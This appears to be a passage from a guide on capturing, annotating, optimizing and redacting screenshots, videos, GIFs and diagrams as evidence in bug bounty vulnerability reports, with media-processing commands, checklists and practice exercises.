### Automated Quality Checks

```bash
# Check image resolution
identify *.png | awk '{print $3, $1}'

# Check file sizes
ls -lh *.png *.mp4 *.gif

# Check image format
file *.png *.mp4 *.gif

# Check video metadata
ffprobe -v quiet -print_format json -show_format *.mp4
```

### Quality Metrics

Track quality metrics:
1. Average screenshot resolution
2. Average video resolution
3. Average GIF size
4. Annotation consistency score
5. Accessibility compliance score
6. Platform compatibility score

## Impact Assessment

### Multimedia Impact on Report Effectiveness

Measure the impact of multimedia:
1. Report acceptance rate with/without multimedia
2. Bounty amount correlation with multimedia quality
3. Triage time with/without multimedia
4. Client satisfaction scores
5. Developer understanding scores

### Multimedia Cost Analysis

Analyze the cost of multimedia:
1. Time to capture screenshots
2. Time to record videos
3. Time to create GIFs
4. Time to create diagrams
5. Tool costs
6. Hosting costs

### Return on Investment

Calculate ROI:
1. Bounty increase with multimedia: 20-50%
2. Acceptance rate increase: 30-60%
3. Triage time reduction: 40-70%
4. Developer understanding increase: 50-80%

## Common Pitfalls

### Pitfall 1: Poor Screenshot Quality

**Problem**: Blurry, low-resolution, or poorly framed screenshots.
**Solution**: Use proper capture settings, clean browser profiles, and review before including.

### Pitfall 2: Missing Annotations

**Problem**: Screenshots without annotations require explanation.
**Solution**: Add consistent annotations to highlight key information.

### Pitfall 3: Over-Annotation

**Problem**: Too many annotations that obscure the evidence.
**Solution**: Annotate only the most important elements.

### Pitfall 4: Misleading Diagrams

**Problem**: Diagrams that inaccurately represent the vulnerability.
**Solution**: Verify diagrams against actual evidence and test.

### Pitfall 5: Poor Video Quality

**Problem**: Low resolution, poor audio, or shaky recording.
**Solution**: Use proper recording settings and stable screen capture.

### Pitfall 6: Large File Sizes

**Problem**: Multimedia files that are too large for the platform.
**Solution**: Optimize files for web delivery.

### Pitfall 7: Missing Accessibility

**Problem**: Multimedia without alt text or captions.
**Solution**: Add alt text to images and captions to videos.

### Pitfall 8: Privacy Violations

**Problem**: Multimedia containing sensitive information.
**Solution**: Redact all sensitive data before inclusion.

### Pitfall 9: Inconsistent Style

**Problem**: Different annotation styles throughout the report.
**Solution**: Establish and follow style guidelines.

### Pitfall 10: Platform Incompatibility

**Problem**: Multimedia that doesn't render on the target platform.
**Solution**: Test on the target platform before submission.

## Integration with Other Skills

### Integration with Report Writing

Multimedia supports report writing:
1. Screenshots provide visual evidence
2. Videos demonstrate dynamic vulnerabilities
3. GIFs show focused animations
4. Diagrams explain complex relationships
5. All multimedia enhances understanding

### Integration with Evidence Hygiene

Multimedia requires evidence hygiene:
1. Redact sensitive information
2. Mask cookies and tokens
3. Remove PII
4. Protect internal details
5. Ensure privacy compliance

### Integration with Triage Validation

Multimedia supports triage validation:
1. Screenshots prove vulnerability existence
2. Videos demonstrate complete exploitation
3. GIFs show specific behaviors
4. Diagrams explain attack paths
5. All multimedia validates findings

### Integration with Bugcrowd and HackerOne

Platform-specific multimedia:
1. Bugcrowd: Image hosting, video embedding
2. HackerOne: Image hosting, video embedding
3. Both: Accessibility, privacy, quality

## Reporting Best Practices

### Multimedia Checklist

**Pre-Submission Multimedia Check**:
- [ ] All screenshots are clear and readable
- [ ] All screenshots are properly annotated
- [ ] All videos demonstrate the vulnerability
- [ ] All GIFs are focused and effective
- [ ] All diagrams are accurate
- [ ] All multimedia has alt text
- [ ] All multimedia is properly hosted
- [ ] All multimedia is properly sized
- [ ] All multimedia is properly formatted
- [ ] All multimedia is properly redacted

### Multimedia Standards Documentation

Document multimedia standards:
1. Screenshot capture standards
2. Video recording standards
3. GIF creation standards
4. Diagram creation standards
5. Annotation standards
6. Hosting standards

### Continuous Improvement

Continuously improve multimedia:
1. Track multimedia quality metrics
2. Update standards based on feedback
3. Provide multimedia training
4. Automate multimedia processing
5. Share multimedia best practices

## Labs and Practice Exercises

### Exercise 1: Screenshot Capture and Annotation

Capture and annotate screenshots for a SQL injection vulnerability. Include: Burp Suite evidence, browser evidence, and annotated highlights.

### Exercise 2: Video Recording and Editing

Record and edit a video demonstrating an XSS vulnerability. Include: title slide, step-by-step demonstration, impact demonstration, and summary slide.

### Exercise 3: GIF Creation

Create a GIF demonstrating an IDOR vulnerability. Include: the complete exploitation sequence, annotations, and optimization.

### Exercise 4: Diagram Creation

Create diagrams for an SSRF vulnerability. Include: attack chain diagram, architecture diagram, and data flow diagram.

### Exercise 5: Multimedia Integration

Integrate all multimedia into a complete report. Include: proper placement, captions, alt text, and hosting.

## Ethics and Responsible Disclosure

### Multimedia Ethics

Maintain ethical standards in multimedia:
1. Do not create misleading or deceptive multimedia
2. Do not expose sensitive information
3. Do not violate privacy regulations
4. Do not include unnecessary personal information
5. Do not misrepresent the vulnerability

### Privacy Compliance

Ensure privacy compliance:
1. Redact all PII
2. Mask all credentials
3. Remove all internal URLs
4. Blur all sensitive data
5. Obtain consent when required

## Cheat Sheet

### Quick Reference for Multimedia

1. **Screenshots**: Clear, annotated, properly sized
2. **Videos**: Complete demonstration, narrated, optimized
3. **GIFs**: Focused, optimized, effective
4. **Diagrams**: Accurate, clear, well-labeled
5. **Annotation**: Consistent, clear, not overdone
6. **Hosting**: Reliable, accessible, properly configured
7. **Accessibility**: Alt text, captions, contrast
8. **Privacy**: Redacted, masked, compliant
9. **Quality**: High resolution, clear, professional
10. **Integration**: Properly placed, referenced, organized

### Multimedia Command Reference

```bash
# Screenshot optimization
convert screenshot.png -resize 1280x720 -quality 85 optimized.png

# Video optimization
ffmpeg -i input.mp4 -vcodec libx264 -crf 23 output.mp4

# GIF optimization
gifsicle --optimize=3 --colors=128 input.gif -o optimized.gif

# Image batch processing
for img in *.png; do convert "$img" -resize 800x600 "optimized_$img"; done

# Video to GIF conversion
ffmpeg -i input.mp4 -vf "fps=10,scale=480:-1" output.gif

# Screenshot sequence
ffmpeg -i video.mp4 -vf "fps=1" frame_%04d.png

# Image compression
jpegoptim --max=85 --strip-all *.jpg
pngquant --quality=65-80 *.png

# Video metadata extraction
ffprobe -v quiet -print_format json -show_format -show_streams input.mp4
```

### Multimedia Quality Checklist

**Screenshots**:
- [ ] Clear and readable
- [ ] Properly framed
- [ ] Properly annotated
- [ ] Properly sized
- [ ] Properly formatted
- [ ] Properly hosted
- [ ] Properly captioned
- [ ] Properly redacted

**Videos**:
- [ ] Complete demonstration
- [ ] Clear narration
- [ ] Proper resolution
- [ ] Proper duration
- [ ] Proper format
- [ ] Proper hosting
- [ ] Proper captions
- [ ] Proper redaction

**GIFs**:
- [ ] Focused content
- [ ] Optimized size
- [ ] Clear animation
- [ ] Proper duration
- [ ] Proper format
- [ ] Proper hosting
- [ ] Proper annotation
- [ ] Proper redaction

**Diagrams**:
- [ ] Accurate representation
- [ ] Clear labels
- [ ] Proper layout
- [ ] Consistent style
- [ ] Proper export
- [ ] Proper caption
- [ ] Proper reference
- [ ] Proper hosting
